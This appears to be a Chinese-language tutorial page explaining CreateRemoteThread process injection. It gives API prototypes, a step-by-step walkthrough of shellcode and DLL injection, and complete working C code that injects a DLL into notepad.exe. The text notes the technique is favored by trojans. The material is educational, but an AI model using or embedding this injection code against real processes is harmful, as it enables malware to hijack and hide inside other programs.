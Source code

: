 ```yaml
---
description: 经典代码&dll注入
---
```


# CreateRemoteThread

## 远程线程注入

远程线程注入是指一个进程在另一个进程中创建线程的技术，通常用于注入dll或shellcode，两者执行方式会有一些简单的差异但是原理相同，这是一种简单且稳定的经典注入方式，被很多病毒木马所青睐，此外也存在更新式的注入方式。

## 注入流程

1. 打开被注入进程的句柄
2. 通过句柄向被注入进程申请可写可执行空间
3. 往申请的空间内写入必要数据（dllpath&shellcode）
4. 通过windows提供的api创建线程

![](../.gitbook/assets/remote.gif)

## 编程实现

### 0.使用函数原型

```text
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```

```text
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```

```text
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

```text
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

### 1.打开被注入进程的句柄

```text
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, <pid>);
```

### 2.通过句柄向被注入进程申请可写可执行空间

```text
LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### 3.往申请的空间内写入必要数据（dll&shellcode）

#### 3.1 shellcode

```text
char shellcode[]="XXXXXX";
WriteProcessMemory(hProcess, lpBaseAddress, shellcode, sizeof(shellcode), NULL);
```

#### 3.2 DLL注入

```text
char path[]="c:/test/test.dll";
WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
```

### 4.通过windows提供的api创建线程

#### 4.1 shellcode

```text
CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)lpBaseAddress, 0, 0, 0);
```

#### 4.2 DLL注入

我们都知道在进程载入DLL的时候会调用DLLMAIN函数,同时由于ASLR\(基址随机化\)的缘故，在操作系统启动时，DLL的加载地址不尽相同,但由于部分系统DLL要求在系统启动后必须固定，所以我们通过GetProcAddress函数获取操作系统加载DLL的函数。

也就是说,虽然进程不同但是部分系统dll在不同进程中的地址是相同的，那么我们可以通过获取本地进程的相关函数作为远程线程函数的启动参数,并把申请的空间指向加载DLL保存路径的字符串，就可以远程加载DLL。

* 不同进程的kernel32.dll

![](../.gitbook/assets/image%20%2871%29.png)

![](../.gitbook/assets/image%20%282%29.png)



```text
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
```

![](../.gitbook/assets/image%20%2828%29.png)

## 优化与使用

* 根据进程名查找PID

```text
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
```

* 完整代码

```text
#include <stdio.h>
#include <Windows.h>
#include <Tlhelp32.h>
DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}
char path[] = "C:\\Users\\Black Sheep\\source\\repos\\CreateRemoteThread\\x64\\Release\\TestDll.dll";

int main()
{
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, GetProcessIdByName((LPCTSTR)"notepad.exe"));
    
    LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
    LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
    return 0;
}

```

* github:[https://github.com/idiotc4t/CreateRemoteThread](https://github.com/idiotc4t/CreateRemoteThread)

## LINKS

{% embed url="https://www.elastic.co/cn/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/" %}



